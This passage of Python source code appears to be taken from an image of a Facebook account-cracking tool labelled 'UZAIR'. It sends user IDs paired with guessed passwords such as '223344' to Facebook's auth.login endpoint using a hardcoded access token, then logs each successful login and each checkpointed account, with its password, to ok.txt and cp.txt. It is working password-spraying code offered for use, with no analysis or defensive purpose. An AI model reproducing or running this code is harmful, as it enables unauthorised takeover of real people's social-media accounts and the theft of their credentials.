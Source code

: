 		                                    d=json.loads(q)

		                                    if 'www.facebook.com' in d['error_msg']:

		                                        print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass5)

		                                        cp=open("cp.txt","a")

		                                        cp.write(uid+" | "+pass5+"\n")

		                                        cp.close()

		                                        cps.append(uid)

		                                    else:

		                                        if 'access_token' in d:

		                                            print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass5+"\x1b[1;0m")

		                                            ok=open("ok.txt","a")

		                                            ok.write(uid+" | "+pass5+"\n")

		                                            ok.close()

		                                            oks.append(uid)

		                                        else:

		                                            pass6="223344"

		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                                            d=json.loads(q)

		                                            if 'www.facebook.com' in d['error_msg']:

		                                                print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass6)

		                                                cp=open("cp.txt","a")

		                                                cp.write(uid+" | "+pass6+"\n")

		                                                cp.close()

		                                                cps.append(uid)

		                                            else:

		                                                if 'access_token' in d:

		                                                    print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass6+"\x1b[1;0m")

		                                                    ok=open("ok.txt","a")

		                                                    ok.write(uid+" | "+pass6+"\n")

		                                                    ok.close()

		                                                    oks.append(uid)
